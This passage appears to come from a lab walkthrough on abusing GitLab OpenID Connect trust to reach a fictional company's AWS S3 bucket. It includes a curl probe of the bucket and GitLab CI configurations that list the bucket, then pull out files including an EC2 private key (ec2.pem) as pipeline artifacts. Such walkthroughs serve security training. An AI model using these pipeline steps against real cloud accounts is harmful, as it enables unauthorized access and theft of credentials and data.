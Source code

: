 We found a bucket 

![](abuse-openid-connect-and-gitlab-for-aws-access-9.png)

Seems like bucket is deployed in `us-west-2` region
```
└─$ curl -sI https://huge-logistics-engineering-f03da6cbc3f6.s3.amazonaws.com
HTTP/1.1 403 Forbidden
x-amz-bucket-region: us-west-2
x-amz-request-id: ZAWBQ9FFMQMNP9B3
x-amz-id-2: t/hNmjhGDAtpvFu7w//nuI+pE2LKw7un63YHa4Ti+VKRy3UBHQiGvKv12RY9SMLWi5WNclAWNd0=
Content-Type: application/xml
Transfer-Encoding: chunked
Date: Sat, 30 Aug 2025 17:28:44 GMT
Server: AmazonS3

```

Let's list the content of the bucket
```
variables:
  AWS_DEFAULT_REGION: us-east-1
  AWS_PROFILE: "oidc"

oidc:
  image:
    name: amazon/aws-cli:latest
    entrypoint: [""]
  id_tokens:
    GITLAB_OIDC_TOKEN:
      aud: https://gitlab.com
  script:
    - aws s3 ls huge-logistics-engineering-f03da6cbc3f6
```

We discover the files `backup.txt` and `ec2.pem` files. Let's download them using `artifacts` feature

![](abuse-openid-connect-and-gitlab-for-aws-access-10.png)

Update the configuration file
```
variables:
  AWS_DEFAULT_REGION: us-east-1
  AWS_PROFILE: "oidc"

oidc:
  image:
    name: amazon/aws-cli:latest
    entrypoint: [""]
  id_tokens:
    GITLAB_OIDC_TOKEN:
      aud: https://gitlab.com
  script:
    - aws s3 sync s3://huge-logistics-engineering-f03da6cbc3f6/ .
  artifacts:
    paths:
      - backup.txt
      - ec2.pem
```
